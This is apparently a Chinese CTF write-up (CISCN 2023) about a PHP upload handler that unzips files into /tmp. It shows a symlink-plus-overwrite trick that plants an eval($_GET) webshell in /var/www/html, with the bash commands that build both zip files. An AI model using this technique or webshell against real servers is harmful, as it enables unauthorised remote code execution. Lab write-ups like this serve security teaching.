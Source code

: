 ```php
<?php
# 获取文件MIME类型
$finfo = finfo_open(FILEINFO_MIME_TYPE);
# 验证MEME类型，判断文件类型是否为zip
if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
# 移动到tmp目录，解压在临时目录里上传的zip文件
    exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
};
```

分析一下：

- 上传zip文件，解压到`/tmp`目录
- `unzip -o`参数，如果zip文件中存在同名文件，则覆盖

通过上面两步操作，可以和linux`软链接`结合起来实现以下功能：

- 创建一个软链接文件`link`，指向网站根目录`/var/www/html`，压缩上传
- 创建同名文件夹`link`，在文件夹里创建木马文件，在使在解压后能够覆盖`link`文件即`/var/www/html`目录，可以实现把木马解压到`/var/www/html`目录getshell

在第一步创建`link`软连接文件压缩后，**记得删除，否则无法创建同名文件夹`link`**，是否一定要同名文件夹？是，否则前面创建的软连接没有意义

演示：

在本地创建`link`软连接文件，指向`/var/www/html`目录

```bash
# 创建软连接
ln -s /var/www/html link
# 压缩
zip --symlinks link.zip link
```

![2](/medias/ciscn2023/2.png)

删除`link`软连接文件，创建同名文件夹`link`，在文件夹里创建`shell.php`文件

```bash
# 删除软连接
rm link
# 创建文件夹，进入
mkdir link
cd link
# 写个🐎子
echo '<?php highlight_file(__FILE__);eval($_GET[1]);phpinfo();?>' > shell.php
# 移动到上一级，压缩
zip -r link1.zip ./link/*
```
